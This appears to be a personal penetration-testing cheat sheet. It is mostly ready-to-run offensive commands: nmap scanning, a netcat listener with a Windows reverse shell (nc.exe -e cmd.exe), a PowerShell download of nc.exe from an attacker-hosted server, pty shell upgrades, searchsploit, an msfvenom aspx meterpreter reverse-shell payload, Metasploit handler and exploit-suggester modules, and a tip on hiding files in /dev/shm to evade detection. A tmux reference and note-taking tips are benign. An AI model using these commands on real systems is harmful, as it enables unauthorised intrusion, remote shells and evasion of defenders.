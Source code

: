 # Cheatsheet

## Evaluation
```bash
# Shows version information
nmap -sC -sV -oA <name> <ip>
```
## Reverse shell

Listen locally with nc
```
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|x|kill pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|

## msfvenom
Payload generator
example aspx generator for reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx
```

## msfconsole
```bash
# Generic reverse shell for use with the payload.
use exploit/multi/handler

# Suggest working exploits for detected version
use post/multi/recon/local_exploit_suggester
```

# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever

# Note keeping
Cherry Tree - Hierarchical tool with code highlight and screen capture
ctrl+shift+prtscr for screenshot selection

# Resources
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet